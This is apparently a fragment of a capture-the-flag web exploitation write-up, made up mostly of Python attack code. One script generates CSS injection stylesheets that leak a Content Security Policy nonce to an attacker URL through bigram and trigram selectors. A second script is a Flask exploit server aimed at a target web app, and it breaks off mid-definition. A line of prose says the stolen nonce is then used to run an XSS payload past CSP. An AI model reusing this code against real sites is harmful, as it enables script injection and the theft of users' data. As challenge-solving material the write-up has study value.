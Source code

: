 ```python
props = []

for cs in itertools.product(CHARSET, repeat=2):
    s = "".join(cs)
    all_css += TEMPLATE_START % (s, s, URL, s)
    all_css += TEMPLATE_END % (s, s, URL, s)
    props.append(f"var(--props_{s},none)")
    props.append(f"var(--prope_{s},none)")

all_css2 = ""
props_2 = []

for i, cs in enumerate(itertools.product(CHARSET, repeat=3)):
    s = "".join(cs)
    if i <= 22000:
        all_css += TEMPLATE_MATCH % (s, s, URL, s)
        props.append(f"var(--prop_{s},none)")
    else:
        all_css2 += TEMPLATE_META % (s, s, URL, s)
        props_2.append(f"var(--prop_{s},none)")

with open(f'{CSS_DIR}/first.css', 'wt') as fp:
    fp.write(all_css)
    fp.write(TEMPLATE_BACKGROUND_SCRIPT % (",".join(props)))

with open(f'{CSS_DIR}/second.css', 'wt') as fp:
    fp.write(all_css2)
    fp.write(TEMPLATE_BACKGROUND_META % (",".join(props_2)))
```

We can then use the obtained nonce in the injected payload to bypass the Content Security Policy and execute the XSS attack.

```python
from flask import Flask, request, send_from_directory, jsonify
import requests
import random
import string

app = Flask(__name__, static_folder='static')

index = open("static/index.html").read()

GSTART = ""
GEND = ""
GTRIGRAMS = []
PREV_TRIGRAMS_LEN = len(GTRIGRAMS)

s = requests.Session()

def random_char(y):
    return ''.join(random.choice(string.ascii_letters) for x in range(y))

@app.route("/static/<path:filename>")
def static_files(filename):
    return send_from_directory(app.static_folder, filename)

@app.route("/exploit", methods=["GET"])
def exploit():
    TARGET = "http://webapp:8001/"
    html = index.replace("{{target}}", TARGET)
    return html, 200

@app.route("/", methods=["GET"])
```